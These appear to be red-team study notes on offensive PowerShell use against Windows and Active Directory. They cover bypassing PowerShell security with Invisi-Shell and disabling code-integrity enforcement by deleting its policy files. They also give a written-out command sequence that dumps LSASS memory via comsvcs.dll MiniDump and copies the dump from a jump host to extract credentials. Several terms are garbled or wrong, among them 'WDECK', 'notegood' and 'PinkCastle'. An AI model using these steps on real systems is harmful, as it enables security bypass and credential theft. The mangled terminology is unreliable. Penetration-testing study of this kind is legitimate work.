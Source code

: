 # 1 Adv Powershell

## Powershell

Powershell is a robust command-line shell and scripting language that comes bundled with modern Windows operating systems. It provides an extensive range of capabilities, granting users access to various components and features within the Windows platform. This includes the Active Directory Environment, which, unfortunately, can be leveraged by potential attackers to compromise system security. One of the standout advantages of Powershell is its ability to execute complex scripts directly from memory without the need for intermediate files. This feature makes it an ideal tool for establishing foothold shells or gaining unauthorized control over targeted systems. By being built on the .NET framework and closely integrated with Windows, Powershell enables seamless interaction with the operating system's resources and functionalities, enhancing its potential as a versatile and potent tool.

> PowerShell is **NOT** _powershell.exe_. It is the _System.Management.Automation.dll_

### Different ways to access PowerShell

1. _\[ADSI]_
2. _.NET_ Classes **System.DirectoryServices.ActiveDirectory**
3. Native Executable
4. WMI using PowerShell
5. ActiveDirectory Module

### PowerShell Detection Mechanism \[ Blue Teaming ]

1. System-wide transcription
2. Script Block logging
3. AntiMalware Scan Interface (AMSI)
4. Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)
5. PinkCastle

***

## Bypassing PowerShell Security

### Using Invisi-Shell

1. With admin privileges

```powershell
RunWithPathAsAdmin.bat 
```

2. With non-admin privileges:

```powershell
RunWithRegistryNonAdmin.bat
```

> Type exit from the new PowerShell session to complete the clean-up.

***

## Bypassing Application Whitelisting

**1. Methods for checking application whitelisting**

1. Software Restriction Policies (SRP)
2. Applocker
3. Device Guard (WDECK)
4. Application Control in Azure

**2. Steps to check the Applocker policy**

> Use the command

```powershell
PS> Get-ApplockerPolicy -Effective
```

**3. Check if Device Guard (WDECK) is enabled**

> Use the command

```powershell
PS> Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

**4. Two approaches for blocking malicious programs**

1. Blocking known malicious signatures
   * Compare executable (_exe_) or dynamic-link library (_dll_) signatures with a database of well-known malicious signature hashes.
2. Allowing only trusted programs to run
   * Instead of blocking malicious programs, allow only trusted Microsoft-signed binaries to execute (commonly referred to as "_notegood_").

**5. Bypassing WDECK**

1. **If WDECK is not implemented using Group Policy**
   1.  Go to the directory

       ```powershell
       C:\Windows\system32\CodeIntegrity
       ```
   2. Delete the following files
      1. _DG.bin.p7_
      2. _SiPolicy.p7b_
   3. Reboot the machine.
2. **If you are in a VM and WDECK is enabled with GPOs**
   1. In this case, the **rundll32.exe** will likely be available for use.
   2. Options for dumping credentials
      1. Dumping the SAM and hive files
      2. Dumping the LSASS (Local Security Authority Subsystem Service)
      3.  Steps for dumping LSASS

          ```powershell
          # Run the following command
          tasklist /FI "IMAGENAME eq lsass.exe"

          # Execute the following command
          rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full

          # Copy the LSASS dump to another location
          echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp

          # Now Extract the credentials from the LSASS dump.
          ```
